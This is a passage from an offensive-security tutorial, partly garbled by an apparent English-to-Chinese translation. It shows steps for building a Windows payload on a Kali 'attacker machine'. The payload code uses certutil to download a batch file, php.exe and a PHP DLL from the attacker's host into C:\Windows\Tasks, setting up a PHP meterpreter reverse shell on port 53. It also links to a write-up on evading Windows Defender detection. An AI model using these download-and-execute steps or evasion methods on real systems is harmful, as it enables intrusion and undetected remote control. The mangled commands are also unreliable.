 8\. Performed on 192.168.62.161 (attacker machine, Kali Linux)

Compile /tmp/testexec.c to /tmp/ruby.exe (ruby.exe is arbitrary, it can be something else if you want).

```
# Compile as x86 Windows PE file
/usr/bin/i686-w64-mingw32-gcc /tmp/testexe.c -o /tmp/ruby.exe
```

![](img/07c809ad69cb2568193b1d84b722d152.png)

You have now created a Windows payload file. The next steps are to prepare the related files that will be called by the payload file (ruby.exe).

**PHP meter preter reverse shell payloay** 的值如果您确信可以在您的目标上使用 PowerShell，您也可以跳过这一 PHP 部分，继续使用 Powercat。您不需要调整 ruby.exe 文件(步骤 7 和 8)。

我们最后的有效载荷文件(ruby.exe)将在 TCP 端口 53 上设置一个 PHP meterpreter 反向 shell。这是通过以下代码行完成的:

I = system(" certutil . exe-URL cache-split-f \ " http://192 . 168 . 62 . 161:80/backup . bat \ " C:\ \ Windows \ \ Tasks \ \ backup . bat ")；

I = system(" certutil . exe-URL cache-split-f \ " http://192 . 168 . 62 . 161:80/PHP . exe \ " C:\ \ Windows \ \ Tasks \ \ PHP . exe ")；

I = system(" certutil . exe-URL cache-split-f \ " http://192 . 168 . 62 . 161:80/PHP 7 . dll \ " C:\ \ Windows \ \ Tasks \ \ PHP 7 . dll ")；

你可以在我的文章中读到更多关于“隐形”PHP Meterpreter shell 的内容:

[](https://medium.com/@minix9800/evade-windows-defender-reverse-shell-detection-with-php-exe-and-metasploit-2ee0aabafedd) [## 使用 php.exe 和 MetaSploit 规避 Windows Defender 反向外壳检测。

### 摘要

medium.com](https://medium.com/@minix9800/evade-windows-defender-reverse-shell-detection-with-php-exe-and-metasploit-2ee0aabafedd) 

9.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

下载适用于 Windows x86 的 php 7.x 可执行文件。从*中提取所有文件。zip 文件，并将 2 个相关文件复制到我们的暂存目录/tmp。检查[https://windows.php.net/downloads/releases](https://windows.php.net/downloads/releases)的最新 7.x 版本。复制最新的 Win32 x86 php zip 文件名。
